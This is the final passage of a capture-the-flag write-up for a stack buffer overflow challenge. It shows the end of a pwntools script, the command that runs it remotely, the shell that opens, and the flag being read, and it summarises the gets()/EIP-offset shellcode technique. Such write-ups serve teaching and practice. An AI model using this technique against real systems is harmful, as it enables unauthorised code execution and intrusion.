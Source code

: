 ```python

p.sendlineafter(b':', payload)
p.interactive()
```

We can then simply send our payload by executing the following:

```
└─$ python3 exp.py REMOTE (IP) 9001
[+] Opening connection to [...snip...] on port 9001: Done
[*] Switching to interactive mode

$
```

All looks well, and we can just read the flag in the directory we land in!

```
$ ls -la
total 28
drwxrwxr-x 2 ubuntu ubuntu  4096 Aug 21 21:36 .
drwxr-x--- 6 ubuntu ubuntu  4096 Aug 21 21:40 ..
-rw-rw-r-- 1 ubuntu ubuntu    11 Aug 21 21:36 flag.txt
-rwxrwxr-x 1 ubuntu ubuntu 15060 Aug 21 14:24 overflow
$ cat flag.txt
Flag here!
```

And that would be the challenge - as you can see, we simply exploited the `gets()` call and pushed shellcode to the stack after determining the EIP offset. Happy hunting!
